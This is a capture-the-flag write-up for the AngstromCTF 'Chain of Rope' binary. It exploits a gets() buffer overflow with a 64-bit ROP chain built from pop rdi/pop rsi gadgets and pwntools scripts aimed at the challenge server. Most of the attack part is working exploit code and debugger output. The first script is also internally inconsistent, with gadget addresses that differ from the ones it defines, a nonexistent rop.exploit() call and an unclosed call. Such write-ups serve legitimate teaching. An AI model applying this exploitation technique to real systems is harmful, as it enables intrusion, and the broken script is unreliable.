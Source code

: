 ## AngstromCTF: Chain of Rope
##### *tl;dr: chaining rop gadgets*
#### Guessing from the challenge title itself, this challenge will be solved by chaining together rop gadgets found inside the binary to get the flag. For the exploit, it can be done the hard way or the much easier way. I'll discuss the hard way first to have an understading on how to perform a simple rop chain on a 64-bit binary. 
#### Since we have the source code, first thing to do is to examine it:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int userToken = 0;
int balance = 0;

int authorize () {
	userToken = 0x1337;
	return 0;
}

int addBalance (int pin) {
	if (userToken == 0x1337 && pin == 0xdeadbeef) {
		balance = 0x4242;
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

int flag (int pin, int secret) {
	if (userToken == 0x1337 && balance == 0x4242 && pin == 0xba5eba11 && secret == 0xbedabb1e) {
		printf("Authenticated to purchase rope chain, sending free flag along with purchase...\n");
		system("/bin/cat flag.txt");
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

void getInfo () {
	printf("Token: 0x%x\nBalance: 0x%x\n", userToken, balance);
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	char name [32];
	printf("--== ROPE CHAIN BLACK MARKET ==--\n");
	printf("LIMITED TIME OFFER: Sending free flag along with any purchase.\n");
	printf("What would you like to do?\n");
	printf("1 - Set name\n");
	printf("2 - Get user info\n");
	printf("3 - Grant access\n");
	int choice;
	scanf("%d\n", &choice);
	if (choice == 1) {
		gets(name);
	} else if (choice == 2) {
		getInfo();
	} else if (choice == 3) {
		printf("lmao no\n");
	} else {
		printf("I don't know what you're saying so get out of my black market\n");
	}
	return 0;
}
```
#### From what we can analyze from the code, the entry point for our exploit will be the vulnerable gets call for the name variable when selecting the first user choice then we can proceed to jump to any function we want. But we can't do that, since the function we really need to call, `flag`, has arguments that need to be checked first before it is executed. To do that, we need to jump to the necessary functions, in a particular order, to set the needed variables. So our chain will go something like: `buffer overflow - call authorize to set userToken - call addBalance and provide the pin argument - finally call flag with the needed arguments`
#### It won't be that easy tho, since unlike 32-bit binaries which place the arguments on the stack, 64-bit binaries place arguments on registers - here is where the need for rop gadgets pop in. 
```
$ ROPgadget --binary chain_of_rope
  [...]
  0x00000000004008f3 : pop rdi ; ret
  0x00000000004008f1 : pop rsi ; pop r15 ; ret
```
#### These are the rop gadgets that we need since the functions require two arguments at most and these arguments must be placed into the rdi and rsi registers. Before we proceed to make our exploit, we need to find which offset to control rip. 
```
$ gdb ./chain_of_rope
  gdb-peda$ pattern create 100
  [...]
  
  gdb-peda$ r
  --== ROPE CHAIN BLACK MARKET ==--
  LIMITED TIME OFFER: Sending free flag along with any purchase.
  What would you like to do?
  1 - Set name
  2 - Get user info
  3 - Grant access
  1
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

  Program received signal SIGSEGV, Segmentation fault.
  [...]
  
  gdb-peda$ x/wx $rsp
  0x7fffffffddd8:	0x41416341
  
  gdb-peda$ pattern offset 0x41416341
  1094804289 found at offset: 56
```
#### And now that we have what we need, we'll now make the exploit. So what we'll need to do is to overflow the buffer and jump to the authorize function to set the userToken variable, next we use the pop rdi gadget for us to place the pin argument for addBalance into the rdi register, then we use the `pop rdi` and `pop rsi; pop r15` gadgets to place the pin and secret arguments for the flag function, then provide a dummy address for the program to return to (r15) and finally get the flag. Now to craft our exploit:
```python
from pwn import *

#: Connect to chall server
HOST = 'shell.actf.co'
PORT = 19400
binary = ELF('./chain_of_rope')
rop = ROP(binary)
# p = binary.process()
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 56
authorize = binary.symbols['authorize']
addBalance = binary.symbols['addBalance']
flag = binary.symbols['flag']

#: Gadgets
pop_rdi = p64(0x4008f3)
pop_rsi = p64(0x4008f1)

#: Rop exploit v1
context.clear(arch='amd64')
rop.raw(offset)
rop.raw(p64(authorize))
rop.raw(0x401403)
rop.raw(p64(0xdeadbeef))
rop.raw(p64(addBalance))
rop.raw(0x401403)
rop.raw(p64(0xba5eba11))
rop.raw(0x401401)
rop.raw(p64(0xbedabb1e))
rop.raw(p64(0x0))
rop.raw(p64(flag))
exploit = rop.exploit()

#: Send payload
p.sendline('1')
p.sendline(exploit)
p.interactive(
```
#### And there we have it. But we could also do this through a much simpler approach using rop.calls from pwntools. We only need to call the functions and provide their arguments, pwntools chains it for us. 
```python
#: ROP exploit v2
context.clear(arch='amd64')
rop.call(authorize)
rop.call(addBalance, [0xdeadbeef])
rop.call(flag, [0xba5eba11, 0xbedabb1e])
print(rop.dump())
exploit = offset + rop.chain()
```
#### Running our exploit script, we now get our flag! 
```actf{dark_web_bargains}```
